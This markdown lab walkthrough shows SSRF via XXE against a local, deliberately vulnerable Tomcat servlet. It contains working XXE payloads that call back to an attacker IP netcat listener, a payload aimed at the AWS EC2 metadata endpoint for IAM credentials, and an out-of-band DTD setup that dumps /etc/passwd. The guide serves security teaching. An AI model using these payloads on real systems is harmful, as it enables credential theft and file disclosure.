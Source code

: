 # Server-Side Request Forgery (SSRF) via XXE

## Check if SSRF is possible?

1. Start a netcat listener on your local machine

        nc -nlvp 4444

2. Create `test.xml` file with following contents

    ```xml
    <!DOCTYPE doc [
    <!ENTITY % xxe SYSTEM "http://ATTACKER_IP_ADDRESS:4444/attacker-controlled"> 
    %xxe;
    ]>
    ```

    or,

    ```xml
    <!DOCTYPE doc [
    <!ENTITY xxe SYSTEM "http://ATTACKER_IP_ADDRESS:4444/attacker-controlled
    "> 
    ]>

    <a>&xxe;</a>
    ```

    Note: Replace `ATTACKER_IP_ADDRESS` with IP address of attacker machine where the netcat listener is running

3. Find container ID (e.g., `d11d200f5264`) of running Tomcat container

        docker ps -a | grep tomcat

4. Move the contents of `test.xml` file into `employees.xml` file (that resides inside the Tomcat container)

    ```bash
    docker cp test.xml d11d200f5264:/var/tmp/employees.xml
    ```

5. Navigate to http://localhost:1234/HelloXML/HelloXMLServlet

    ![Post attack GUI](image/2021-03-02_18-16_post_attack_gui.png)

6. A successful connection received on the netcat listener would indicate that the target application is vulnerable to server side request forgery (SSRF) attack (via XXE)

    ![SSRF](image/2021-03-02_18-58_ssrf.png)

7. When is it useful? It's useful for port scanning, for accessing a sensitive internal URL that is known to the attacker, or to load malicious contents from an attacker controlled URL.

**Note:**
If the vulnerable code was running in an AWS environment, the following payload could be used to obtain temporary IAM access credentials from the EC2 metadata endpoint `http://169.254.169.254/`

```XML
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```
To understand more about how this EC2 metadata endpoint could be abused, you may read the following blogpost: [From a naive-looking PDF Download to SSRF via HTML Injection in AWS](https://blog.appsecco.com/server-side-request-forgery-via-html-injection-in-pdf-download-90ee4053e911)

## Exfiltrate Data by exploiting SSRF

1. Create `evil.dtd` file. Paste following contents:

    ```XML
    <!ENTITY all "%start;%data;%end;">
    ```

2. As an attacker, serve the malicious DTD file

    ```python
    python3 -m http.server 2122
    ```

3. Create `evil.xml` file, as shown below. Include a link to the malicious DTD file served on attacker's server:

   ```
   <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE Employees [
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % stuff SYSTEM "file:///etc/passwd">
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://ATTACKER_IP_ADDRESS:2122/evil3.dtd">
    %dtd;
    ]>
    <Employees>
            <Employee id="1">
                    <age>29</age>
                    <name>&all;</name>
                    <gender>Male</gender>
                    <role>Java Developer</role>
            </Employee>
            <Employee id="2">
                    <age>35</age>
                    <name>Lisa</name>
                    <gender>Female</gender>
                    <role>CEO</role>
            </Employee>
            <Employee id="3">
                    <age>40</age>
                    <name>Tom</name>
                    <gender>Male</gender>
                    <role>Manager</role>
            </Employee>
            <Employee id="4">
                    <age>25</age>
                    <name>Meghna</name>
                    <gender>Female</gender>
                    <role>Manager</role>
            </Employee>
    </Employees>
   ```

   Note: Replace `ATTACKER_IP_ADDRESS` text with actual IP address

4. Find the container ID (e.g., `d11d200f5264`) of running Tomcat container

        docker ps -a | grep tomcat

5. Move the contents of `evil.xml` file into `employees.xml` file (that resides inside the Tomcat container)

    ```bash
    docker cp evil.xml d11d200f5264:/var/tmp/employees.xml
    ```

6. Navigate to http://localhost:1234/HelloXML/HelloXMLServlet

    ![Post attack GUI](image/2021-03-03_10-06_dtd_data_dump.png)

    Notice that the contents of `/etc/passwd` file are dumped onto the screen. Similarly, contents of other sensitive files could also be read.
